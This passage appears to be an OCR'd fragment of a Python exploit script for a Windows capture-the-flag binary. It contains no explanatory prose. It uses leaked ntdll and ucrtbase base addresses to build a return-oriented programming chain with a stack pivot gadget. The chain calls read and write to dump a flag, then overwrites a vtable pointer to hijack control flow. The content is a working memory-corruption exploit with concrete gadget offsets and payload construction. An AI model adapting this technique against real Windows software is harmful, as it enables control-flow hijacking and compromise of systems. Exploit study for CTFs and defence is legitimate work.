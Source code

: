 ```python
print("ntdll base : "+hex(ntdll))
print("ucrtbase base : "+hex(ucrtbase))
p.recvuntil('>')

pivot = ntdll + 0xA0E24 # mov rsp, [rcx+152]; mov rcx, [rcx+248]; jmp rcx;
ret = ntdll + 0x144F
add_rsp_28h = ntdll + 0x3EDC
ppr = ntdll + 0x8B8F0 # pop rdx rcx r8 r9 r10 r11 ret

read = ucrtbase + 0x17BC0
write = ucrtbase + 0x174C0 

# pivot
payload = p64(pivot)
payload += p64(add_rsp_28h)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(add_rsp_28h)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(ret)
payload += p64(0)
payload += p64(add_rsp_28h)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)

payload += p64(ppr)
payload += p64(obj_leak+0x240)	# arg 2, buffer 
payload += p64(0x3)	# arg 1, fd
payload += p64(0x30)	# arg 3, size
payload += p64(0)	# dummy
payload += p64(0)	# dummy
payload += p64(0)	# dummy
payload += p64(read)

payload += p64(add_rsp_28h)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)

# write flag
payload += p64(ppr)
payload += p64(obj_leak+0x240)	
payload += p64(1)
payload += p64(0x30)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(write)

# overwrite vtable

modifyAddr(-1,1,p64(obj_leak+152))

```